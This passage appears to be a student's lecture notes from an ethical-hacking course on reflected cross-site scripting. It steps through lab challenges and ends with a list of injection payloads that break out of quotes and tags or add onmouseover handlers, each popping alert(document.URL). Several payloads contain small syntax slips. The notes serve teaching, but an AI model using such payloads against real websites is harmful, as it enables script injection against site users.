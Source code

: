 		<br><img src="../../notes-pics/03-Module/17_lecture/17_lecture-18-M3.jpg" alt="" width="500"/>
	- so payload will be `ironman"onmouseover="alert(document.URL)` , to balance the payload , <br>
		we put a double quote before `alert` & we want "ironman" as a text on button , so behind the scene <br>
		that payload will look like `<input type="submit" name="submit" value="ironman" onmouseover="alert(document.URL)">` ✔️
- STEP 4 : so paste this payload on URL address bar after `submit=` i.e `ironman"onmouseover="alert(document.URL)` & <br>
	hit enter & now we'll get a pop i.e "Internet Explorer has modified this page to help prevent XSS" cuz 
	- we're before this way , we're trying all the things inside input field , so at that time , the browser was not preventing ✔️
	- but the moment , we run a query on `submit=` (aka submit parameter) URL address bar & it gets executed <br>
		but the browser prevented that ✔️
- so challenge is completed but the browser is stopping
```
Conclusion : STEPS 

STEP 1 : <script>alert(alert.(document.URL)</script> -> output : '&alt;script&gt;alert(document.URL)&alt;/script&gt;'>

STEP 2 : onmouseover=alert(document.URL) -> output : 'onmouseover=alert(document.URL)'>

STEP 3 : '>onmouseover='alert(document.URL) -> output : '&gt;onmouseover=alert(document.URL)&gt;'>

STEP 4 : <input type="submit" name="submit" value="ironman" onmouseover="alert(document.URL)"> -> output : done
```

### summary / Payloads of challenges
- Challenge 1 : `<script>alert(alert.(document.URL)</script>`
- Challenge 2 : `><script>alert(alert.(document.URL)</script>`
- Challenge 3 : `"><script>alert(alert.(document.URL)</script>`
- Challenge 4 : `'><script>alert(alert.(document.URL)</script>`
- Challenge 5 : `";</script><script>alert(alert.(document.URL)</script>`
- Challenge 6 : `';</script><script>alert(document.URL)</script>`
- Challenge 7 : `'>onmouseover='alert(document.URL)`
- Challenge 8 : on browser URL address bar , apply the payload after "submit" parameter i.e `ironman"onmouseover="alert(document.URL)` 

---
### End of the lecture (Doubts)
- Types of XSS attack : https://www.perplexity.ai/search/Types-of-XSS-SUP6Le2DQueKOTgPhUqrlQ
- for more [What is Reflected XSS attack in Hindi? Practical Demo](https://www.youtube.com/watch?v=nXxj6JgFxzw&ab_channel=EthicalSharmaji)
